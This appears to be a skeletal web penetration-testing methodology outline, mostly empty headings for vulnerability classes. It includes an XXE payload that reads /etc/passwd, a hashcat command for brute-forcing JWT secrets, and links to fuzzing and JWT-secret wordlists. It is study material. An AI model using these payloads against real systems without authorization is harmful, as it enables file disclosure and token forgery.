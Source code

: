 # Methodology

## Step 1 - Enumeration
### Directory fuzzing
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/dirsearch.txt

### Directory fuzzing


## Step 2 - Identify vulnrabilities
### SQL injections
### NoSQL injections
### Authentication
### Path traversal
### Command injection
### Business logic vulnerabilities
### Information disclosure
### Access control
### Command injection
### File upload
### Race conditions
### Server-side request forge (SSRF)
### Path traversal
### XXE Injection
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
### Cross-site scripting (XSS)
### Cross-site request forge (CSRF)
### Cross-origin resource sharing (CORS)
### Clickjacking
### DOM-based vulnerabilities
### WebSockets
### Insecure deserialization
### GraphQL API vulnerabilities
### Server-side template injection
### Web cache poisoning
### HTTP Host header attacks
### HTTP request smuggling
### OAuth authentication
### JWT attacks
#### Brute force key
Word list that may be used : https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
```
hashcat -a 0 -m 16500 <jwt> <wordlist>
```
### Prototype pollution
